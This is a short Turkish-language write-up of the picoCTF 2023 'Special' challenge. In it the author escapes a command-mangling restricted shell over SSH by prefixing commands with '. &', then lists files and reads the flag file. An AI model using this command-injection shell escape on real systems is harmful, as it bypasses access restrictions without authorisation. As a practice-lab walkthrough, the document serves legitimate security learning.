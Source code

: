```yaml
---
title: 'picoCTF 2023 | Special WriteUp'
author: 'appdone'
categories: [picoCTF 2023 Challenges]
render_with_liquid: false
---
```


Bu yazımda, picoCTF platformunda yer alan "Special" isimli meydan okumayı çözeceğiz. Makineyi başlattıktan sonra SSH servisine bağlanıp, komutlar çalıştırmayı deniyoruz. Ancak girilen komutların ismini cismini değiştiren bir shell kullandığımız için girdiğimiz komutlar çalışmıyor. Shell değiştirmeye çalıştığımızda ise buna izin vermediğini görüyoruz.

```console
Special$ ls
Is 
sh: 1: Is: not found
Special$ pwd
Pod 
sh: 1: Pod: not found
Special$ bash
Why go back to an inferior shell?
Special$ 
```

Biraz kurcaladıktan sonra ". & id" şeklinde komut çalıştırmayı başardım. Tabi "ls" gibi komutları yine çalıştıramıyorum. ". & echo *" şeklinde bir komut kullandığımda bulunduğum dizinde "blargh" adında bir dizin olduğunu ve içerisinde bayrağın bulunduğunu öğrendim. Sonrada bayrağı olduğu yerden çekip çıkardım.

```console
Special$ . & id
. & id 
uid=1000(ctf-player) gid=1000(ctf-player) groups=1000(ctf-player)
Special$ . & echo *
. & echo * 
blargh
Special$ . & echo blargh/*
. & echo blargh/* 
blargh/flag.txt
Special$ . & cat blargh/flag.txt
. & cat blargh/flag.txt 
picoCTF{***}
Special$ 
```
